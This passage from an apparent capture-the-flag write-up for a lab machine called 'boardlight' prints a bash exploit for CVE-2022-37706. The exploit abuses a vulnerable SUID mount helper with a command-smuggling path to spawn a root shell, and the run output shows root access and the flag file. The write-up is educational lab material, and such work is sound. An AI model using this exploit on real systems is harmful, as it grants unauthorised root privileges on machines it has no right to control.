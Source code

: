 ```bash
echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
I'll save it as `root.sh` on the box and run it.

```
larissa@boardlight:~$ bash root.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# script -qc /bin/bash /dev/null
root@boardlight:/home/larissa# wc -c /root/root.txt
33 /root/root.txt
```
![](https://external-preview.redd.it/tgmcL09Q8AFiRJuZrSrzhaCzMsZjqSIs8vRjykb-UF0.jpg?auto=webp&s=7e7e8c346e5edd5a209118921d72daaa9243a94a)

Thanks for reading, Have a great day!

![PEPE](https://media.tenor.com/anVMFFvkDG0AAAAe/pepe-hacker.png)